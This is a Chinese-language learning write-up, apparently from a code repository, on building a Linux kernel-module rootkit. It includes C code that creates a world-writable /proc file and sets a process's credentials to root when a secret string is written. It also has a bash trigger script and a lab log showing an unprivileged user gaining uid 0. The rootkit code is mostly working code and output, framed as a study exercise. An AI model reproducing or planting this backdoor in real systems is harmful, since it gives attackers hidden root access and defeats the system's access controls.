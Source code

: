 ## 提供root后门
本资料的思路是在/proc之中提供一个文件，如果某个进程向该文件写入特定内容，则让模块赋进程的uid和euid为0。

那么，如何在内核模块中创建/proc下面的文件?

采用`proc_create`与`proc_remove`？查阅了一下这两个函数至少在5.4.81版本中他们是存在的。

查阅一下这两个函数的基本信息，在原项目中已经详细给出，这里稍作补充，第二个例子尤其好：

https://stackoverflow.com/questions/8516021/proc-create-example-for-kernel-module

https://devarea.com/linux-kernel-development-creating-a-proc-file-and-interfacing-with-user-space/#.Y0K-JHZBxD8

这则post解释了proc_create的参数选取：
https://stackoverflow.com/questions/28664971/why-is-does-proc-create-mode-argument-0-correspond-to-0444

mode选取采用了UGO策略，望周知。

我们尝试按照文章内的思路实现一个拥有后门的玩具。

## 后门的安置：
如README.md所示参考的文档所述，可以通过修改用户id为root的id实现用户的提权。我们来看一下先前全志设置下来的源代码：
```C
    if(!strncmp("rootmydevice",(char*)buf,12)){
		cred = (struct cred *)__task_cred(current);
		cred->uid = 0;
		cred->gid = 0;
		cred->suid = 0;
		cred->euid = 0;
		cred->euid = 0;
		cred->egid = 0;
		cred->fsuid = 0;
		cred->fsgid = 0;
		printk("now you are root\n");
	}
```
可以看到咱们利用了数据结构cred，这个数据结构的详细结构如下面的链接所示：

https://github.com/torvalds/linux/blob/master/include/linux/cred.h

对于函数__task_cred的解释，则为：Access a task's objective credentials

因此，直接对当前进程（current）套用该函数是可行的。

```C
void backdoor(void) {
    entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);
}

void cleanbackdoor(void) {
    proc_remove(entry);
}

static int __init mode_init(void) {
    printk(KERN_INFO "Rootkit is entering.\n");
    backdoor();
    return 0;
}

static void __exit mode_exit(void) {
    cleanbackdoor();
    printk(KERN_INFO "Rootkit is leaving.\n");
}
```
函数的整体逻辑如上所示：该函数利用backdoor函数和cleanbackdoor函数的组合，在insmod该模块时提供了一个后门文件，NAME表示的是创建的后门文件的路径（当然proc_create会把该文件置于/proc/下）。

创建好这个文件后，需撰写write_handler，表示如果有人向该文件写入某些字符该内核模块应该执行怎样的操作，我们看到在write_handler内部（这里就不赘述，参考原文档）验证了字符串是否是我们设置的想要的后门值，以此确定是否给输入该字符串进入文件的用户提权。
## 脚本
```shell
#!/usr/bin/env bash


# The testing script for the root backdoor functionality.


sha512() {
    printf '%s' "${1}" | sha512sum | cut -d ' ' -f1
}


id && \
    file /proc/kcore # We can't read because we are not root.

printf '%s' a_wrong_try > /proc/$(sha512 rootme) && \
    printf '%s' $(sha512 r00tme) > /proc/$(sha512 rootme) && \
    id && \
    file /proc/kcore # We can read we are now root!
```
这里的脚本内容是现学的，可以参考这个资料，过了一半感觉还可以的：

https://www.shellscript.sh/

总之，id会告诉当前用户的一些基本用户id和group id之类的信息，file命令会查看接下来跟着的文件的类型（当然，/proc/kcore只有在拿到root权限后才可以看）。该脚本定义了一个叫做sha512的函数，具体来说该函数会根据输入给他的参数（参考链接：https://www.shellscript.sh/variables2.html）来利用sha512进行散列化，并截断（cut命令）使之维持同等长度。

特别的，第一次我们将"a_wrong_try"这个字符串送到名为/proc/$(sha512 rootme)的文件夹内（sha512 rootme表示以rootme作为参数进行散列化），这当然是不可以的。原函数设置好仅在输入r00tme的散列值才能提权成为root（具体参考write_handler里的参数设置，也可以自行撰写命令行计算验证一下，很简单的）。因此，第二个printf函数送进去的参数会使得当前用户升级为root。

为了验证这一点，我们看一些id的信息，并看一下自己是否有权利访问/proc/kcore，结果发现是可行的，说明提权完成了。（参考实验记录）

那么，我们的提权工作就讲到这里结束。
## 实验记录
```
root@ubuntu:/home/link/Desktop/libreCrops# insmod backdoor.ko
root@ubuntu:/home/link/Desktop/libreCrops# useradd annon
root@ubuntu:/home/link/Desktop/libreCrops# su annon
$ ./rootme.sh
uid=1001(annon) gid=1001(annon) groups=1001(annon)
/proc/kcore: regular file, no read permission
uid=0(root) gid=0(root) groups=0(root),1001(annon)
/proc/kcore: ELF 64-bit LSB core file, x86-64, version 1 (SYSV), SVR4-style, from 'BOOT_IMAGE=/boot/vmlinuz-5.4.0-81-generic root=UUID=1628dcf5-3fb1-49e0-a3f6-e03'
$ exit
root@ubuntu:/home/link/Desktop/libreCrops# userdel annon
root@ubuntu:/home/link/Desktop/libreCrops# rmmod backdoor.ko
root@ubuntu:/home/link/Desktop/libreCrops# dmesg
[ 1283.115726] Rootkit is entering.
[ 1297.012164] Alien, get out of here: a_wrong_try.
[ 1297.014952] Comrade, I will help you.
[ 1297.014952] See you!
[ 1321.659761] Rootkit is leaving.
root@ubuntu:/home/link/Desktop/libreCrops# 
```
